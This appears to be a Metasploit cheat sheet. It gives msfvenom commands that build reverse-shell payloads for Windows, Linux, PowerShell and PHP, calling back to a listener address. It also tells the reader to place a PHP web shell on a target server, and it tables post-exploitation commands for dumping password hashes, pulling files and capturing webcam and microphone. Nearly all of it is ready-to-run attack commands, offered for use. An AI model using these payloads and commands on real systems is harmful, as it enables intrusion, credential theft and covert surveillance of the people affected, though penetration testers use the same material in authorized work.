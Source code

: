 ## 1. Payload Generation with `msfvenom`

### Basic Payload Creation
```bash
msfvenom -p <payload> LHOST=<IP> LPORT=<PORT> -f <format> > <output_file>
```
- **`-p <payload>`**: Specify the payload type (e.g., `windows/meterpreter/reverse_tcp`, `linux/x86/shell/reverse_tcp`).
- **`-f <format>`**: Output format (e.g., `exe`, `elf`, `apk`, `raw`, `psh`).
- **`LHOST`**: Your listening IP address.
- **`LPORT`**: Your listening port.

Example for Windows:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe
```

Example for Linux:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > payload.elf
```

Example for PowerShell:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh > payload.ps1
```

---

## 2. Converting a Reverse Shell to Meterpreter
If you already have a reverse shell, you can upgrade it to a Meterpreter session:
```bash
use post/multi/manage/shell_to_meterpreter
set SESSION <session_id>
run
```

---

## 3. Creating a Listener Payload 

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

---

## 4. Creating a PHP Payload 
Generate PHP Meterpreter payload:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw > shell.php
```

Place `shell.php` on the target server. When executed via the web browser, it will connect back to your listener.

Start listener in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

---

## 5. Meterpreter Commands

| Command                           | Description                        |
| --------------------------------- | ---------------------------------- |
| `sysinfo`                         | Display system information.        |
| `getuid`                          | Show current user.                 |
| `getsystem`                       | Attempt privilege escalation.      |
| `hashdump`                        | Dump password hashes.              |
| `search -f <filename>`            | Search for files.                  |
| `download <file>`                 | Download a file from the target.   |
| `upload <file>`                   | Upload a file to the target.       |
| `screenshot`                      | Take a screenshot of the target.   |
| `webcam_snap`                     | Take a snapshot from the webcam.   |
| `record_mic`                      | Record audio from the microphone.  |
| `shell`                           | Spawn a standard shell.            |
| `background`                      | Send session to background.        |
| `sessions -i <id>`                | Interact with a specific session.  |
| `post/windows/gather/enum_shares` | Enumerate shared files on Windows. |
| `post/linux/gather/hashdump`      | Dump hashes on Linux.              |

---

## 6. Metasploit Commands

| Command                        | Description                                                                    |
| ------------------------------ | ------------------------------------------------------------------------------ |
| `search <keyword>`             | Search for exploits, payloads, or auxiliary modules related to a keyword.      |
| `search type:exploit name:<x>` | Search specifically for exploits containing `<x>` in their name.               |
| `search type:payload`          | List all payloads.                                                             |
| `use <module_path>`            | Load a specific module (e.g., `use exploit/windows/smb/ms17_010_eternalblue`). |
| `info`                         | Show detailed information about the loaded module.                             |
| `show payloads`                | Show compatible payloads for the loaded module.                                |
| `show exploits`                | List available exploits.                                                       |
| `show options`                 | Show configurable options for the loaded module.                               |
| `set <option> <value>`         | Set a specific option for the module.                                          |
| `exploit`                      | Run the loaded exploit.                                                        |
| `run`                          | Alias for `exploit`.                                                           |
| `sessions`                     | List active sessions.                                                          |
| `sessions -i <id>`             | Interact with a specific session.                                              |
| `jobs`                         | List background jobs.                                                          |
| `jobs -k <id>`                 | Kill a background job.                                                         |
| `load <plugin>`                | Load a Metasploit plugin.                                                      |
| `bg`                           | Quit the session                                                               |
| `sessions -k <ID>`             | Kill a session                                                                 |
